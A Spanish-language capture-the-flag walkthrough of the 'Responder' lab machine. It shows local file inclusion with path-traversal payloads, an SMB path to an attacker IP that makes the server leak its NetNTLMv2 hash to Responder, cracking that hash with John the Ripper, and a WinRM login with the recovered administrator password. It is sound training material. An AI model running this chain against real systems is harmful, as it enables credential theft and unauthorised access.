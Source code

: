 Maquina: Responder

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 165411](https://github.com/user-attachments/assets/86c84ec7-1ff7-49b2-b893-ecd3e77dd4c7)

Iniciamos la máquina y verificamos la conexión

ping 10.129.37.91 -c 1

![Screenshot 2024-11-10 165550](https://github.com/user-attachments/assets/19006c47-bf01-4c13-ae4b-787610a7809c)

realizamos un escaneo de puertos y servicios

sudo nmap -sVC -T4 -PN -p- 10.129.37.91

el puerto 80 está abierto y está sirviendo HTTP con Apache httpd 2.4.52 (Win64) junto con OpenSSL/1.1.1m y 
PHP/8.1.1., el puerto 5985 está abierto y está sirviendo HTTP con Microsoft HTTPAPI httpd 2.0 
(utilizado por SSDP/UPnP), el puerto 7680 está abierto, pero no se identifica claramente el servicio asociado, 
indicado como pando-pub

![Screenshot 2024-11-10 170149](https://github.com/user-attachments/assets/f93fb876-05d3-4d1d-88ea-43548cc47156)

añadimos la ip a /etc/hosts

echo 10.129.37.91 unika.htb | sudo tee -a /etc/hosts

![Screenshot 2024-11-10 170537](https://github.com/user-attachments/assets/af12c8f1-9568-4694-b3ad-471bd8b054dc)

![Screenshot 2024-11-10 170651](https://github.com/user-attachments/assets/c75936e3-4ee7-41d8-85d8-7be1874c2b26)

En este código hay un parámetro de página. 
Al cambiar el idioma a otro, obtenemos un parámetro page=french.html en la URL.

![Screenshot 2024-11-10 171031](https://github.com/user-attachments/assets/121d8f7a-0325-4c83-8ff0-e5e87423bbbe)

Este es un caso de inclusión local de archivos

Ahora cambiamos el valor del parámetro page=../../../../../../../../../

![Screenshot 2024-11-10 171643](https://github.com/user-attachments/assets/91fb09f9-09aa-4a7a-b890-e1b181d1754f)

Ahora leemos el archivo /etc/hosts de nuestro objetivo usando LFI.

http://unika.htb/index.php?page=../../../../../../../../../../windows/system32/drivers/etc/hosts

Capturamos el hash NetNTLMv2 del administrador utilizando Responder. Para entender mejor el proceso, expliquemos brevemente lo que haremos.

Aprovechando la vulnerabilidad de LFI (Local File Inclusion), pediremos al servidor que intente conectarse a un recurso SMB en nuestra máquina local. 
Al hacer esto, el servidor Windows tratará de autenticarse con nuestra máquina utilizando el protocolo NTLM (New Technology Lan Manager), 
que es un sistema de autenticación desafío-respuesta desarrollado por Microsoft.

Durante este proceso, NTLM generará una cadena específicamente formateada que incluye tanto el desafío como la respuesta. 
Esta cadena es conocida como NetNTLMv2. Aunque comúnmente se le llama "hash NetNTLMv2", técnicamente no es un hash tradicional, pero se ataca de manera similar.

Con Responder, capturaremos esta cadena NetNTLMv2. 
Luego intentaremos descifrarla utilizando John The Ripper para ver qué información podemos obtener y cómo podemos usarla.

iniciamos Responder, configurándolo para que escuche en la interfaz de red tun0, 
que es la interfaz por la que estamos conectados al servidor remoto.

sudo responder -I tun0

![Screenshot 2024-11-10 172931](https://github.com/user-attachments/assets/e554f06c-b8e2-4361-8ad5-f101807327ea)

volvemos al navegador y cargamos la siguiente URL:
http://unika.htb/?page=//10.10.14.37/file

copiamos el hash que nos da el repeater, creamos un file y le pegamos el hash.

![Screenshot 2024-11-10 173709](https://github.com/user-attachments/assets/f75b2dff-3c28-44fe-88c6-62162e77253f)

![Screenshot 2024-11-10 173539](https://github.com/user-attachments/assets/7ae7ecde-4912-420e-87b5-b79977086b55)

utilizamos el diccionario rockyou.txt para intentar descifrar el hash con John the Ripper

![Screenshot 2024-11-10 174643](https://github.com/user-attachments/assets/17fea937-4904-470f-a582-8f0c80187c45)

siguiente paso atacamos el servicio que esta corriendo en el puerto 5985 WinRm con las credenciales obtenidas

evil-winrm -i 10.129.37.91 -u administrator -p badminton

![Screenshot 2024-11-10 174858](https://github.com/user-attachments/assets/c999c5c0-6e4b-46ae-ae0e-356c2d0132b8)

vamos hasta el usuario mike y conseguimos el flag

![Screenshot 2024-11-10 174956](https://github.com/user-attachments/assets/6a37cbfb-c9ed-41a8-83b5-140cd5c73eb8)

![Screenshot 2024-11-10 175035](https://github.com/user-attachments/assets/8d422348-821a-4264-a516-cc6a02118005)
